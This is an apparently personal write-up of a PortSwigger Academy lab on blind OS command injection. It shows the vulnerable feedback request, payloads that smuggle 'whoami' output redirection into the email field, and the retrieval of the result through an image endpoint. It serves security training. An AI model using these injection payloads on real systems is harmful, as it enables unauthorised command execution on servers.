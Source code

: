 # Lab 3 - Blind OS command injection with output redirection

**YouTube video & lab links below:**

[Command Injection - Lab #3 Blind OS command injection with output redirection | Long Version](https://youtu.be/Gf2_UWsYrpM?list=PLuyTk2_mYISK9ywsFZZOT1LuO3Eb7Wq5q)

[Lab: Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

```
This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. 
The output from the command is not returned in the response. 
However, you can use output redirection to capture the output from the command. 
There is a writable folder at: /var/www/images/

The application serves the images for the product catalog from this location. 
You can redirect the output from the injected command to a file in this folder, 
and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the whoami command and retrieve the output.
```

### Target Goal - Exploit the blind command injection and redirect the output from the whoami command to the `/var/www/images`


#### Analysis:

**1. Confirm blind command injection: Email Field**

**2. Check where images are store**

**3. Redirect output to file**

**4. Check if file was created**

<br>

## Solution:
### The vulnerable parameter is the email field field in the feedback form
at this endpoint: `POST /feedback/submit`

```HTTP
POST /feedback/submit HTTP/2
Host: 0a2f007903dd2e578305105c006200aa.web-security-academy.net
Origin: https://0a2f007903dd2e578305105c006200aa.web-security-academy.net

Referer: https://0a2f007903dd2e578305105c006200aa.web-security-

csrf=sAk5Gg9Qxxvly8VWUAGGuxQyQeYQvzyq&name=Hackerman&email=peter%40normal-user.net&subject=foo&message=bar
```

`&name=Hackerman&`

#### use the same command structure as in the previous lesson
and preceed it with a random letter so that it wont pickup the command, makes it easier
to execute, etc....

```shell
||ping+-c+10+127.0.0.1||
```

But here in this lab it's gonna be:
```shell
x||whoami > /var/www/images/whodat.txt||&
```
<br>

### The cmd injection in the email param
be sure to URL encode it
```
email=foo%40email.com+%26+whoami+>+/var/www/images/whodat.txt+%23&subject
```

Then URL encode it, I used the Decoder tab:


Then the end point containing the .txt file you made is located at:
```HTTP
GET /image?filename=21.jpg
```

It can be any jpg number, that's irrelevant, cause you're gonna change the .jpg file name
to the name of the file you created that contains the output of `whoami` , and that will look like
```HTTP
GET /image?filename=whodat.txt HTTP/2
Host: yourlabid.web-security-academy.net
```

and the response should be
```HTTP
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
Set-Cookie: session=CsuBhNTngZrmPSJAreEo9oFnWjh80WCd; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 13

peter-WKMu36
```

**And BOOM !**
you are `peter-WKMu36`

--Done--
